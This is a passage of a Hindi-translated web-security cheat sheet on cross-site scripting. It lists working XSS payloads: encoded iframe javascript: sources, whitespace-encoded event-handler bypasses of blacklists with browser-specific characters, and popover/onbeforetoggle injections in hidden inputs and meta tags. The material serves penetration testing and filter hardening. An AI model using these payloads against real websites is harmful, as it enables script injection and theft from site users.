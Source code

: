 आप **Hex** और **Octal एन्कोड** को `iframe` के `src` विशेषता के अंदर (कम से कम) **JS निष्पादित करने के लिए HTML टैग घोषित करने** के लिए उपयोग कर सकते हैं:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
### रिवर्स टैब नबिंग
```javascript
<a target="_blank" rel="opener"
```
यदि आप किसी भी URL को मनमाने **`<a href=`** टैग में इंजेक्ट कर सकते हैं जिसमें **`target="_blank" और rel="opener"`** विशेषताएँ हैं, तो इस **व्यवहार का लाभ उठाने के लिए निम्नलिखित पृष्ठ की जांच करें**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### इवेंट हैंडलर्स बायपास पर

सबसे पहले इस पृष्ठ की जांच करें ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) उपयोगी **"on" इवेंट हैंडलर्स** के लिए।\
यदि कोई ब्लैकलिस्ट है जो आपको इन इवेंट हैंडलर्स को बनाने से रोक रही है, तो आप निम्नलिखित बायपास आजमा सकते हैं:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**यहाँ**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **अब छिपे हुए इनपुट का दुरुपयोग करना संभव है:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
और **मेटा टैग्स** में:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```